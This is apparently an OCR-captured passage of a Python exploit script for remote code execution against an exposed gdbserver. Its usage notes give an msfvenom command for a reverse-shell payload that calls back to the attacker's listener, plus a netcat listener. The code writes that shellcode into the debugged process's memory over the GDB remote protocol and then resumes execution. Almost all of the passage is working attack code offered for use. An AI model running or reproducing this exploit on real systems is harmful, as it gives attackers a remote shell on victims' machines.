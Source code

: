 ```python

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
'''


def checksum(s: str) -> str:
    res = sum(map(ord, s)) % 256
    return f'{res:2x}'


def ack(sock):
    sock.send(b'+')


def send(sock, s: str) -> str:
    sock.send(f'${s}#{checksum(s)}'.encode())
    res = sock.recv(1024)
    ack(sock)
    return res.decode()


def exploit(sock, payload: str):
    send(sock, 'qSupported:multiprocess+;qRelocInsn+;qvCont+;')
    send(sock, '!')

    try:
        res = send(sock, 'vCont;s')
        data = res.split(';')[2]
        arch, pc = data.split(':')
    except Exception:
        print('[!] ERROR: Unexpected response. Try again later')
        exit(1)

    if arch == '10':
        print('[+] Found x64 arch')
        pc = binascii.unhexlify(pc[:pc.index('0*')])
        pc += b'\0' * (8 - len(pc))
        addr = hex(struct.unpack('<Q', pc)[0])[2:]
        addr = '0' * (16 - len(addr)) + addr
    elif arch == '08':
        print('[+] Found x86 arch')
        pc = binascii.unhexlify(pc)
        pc += b'\0' * (4 - len(pc))
        addr = hex(struct.unpack('<I', pc)[0])[2:]
        addr = '0' * (8 - len(addr)) + addr

    hex_length = hex(len(payload))[2:]

    print('[+] Sending payload')
    send(sock, f'M{addr},{hex_length}:{payload}')
    send(sock, 'vCont;c')

```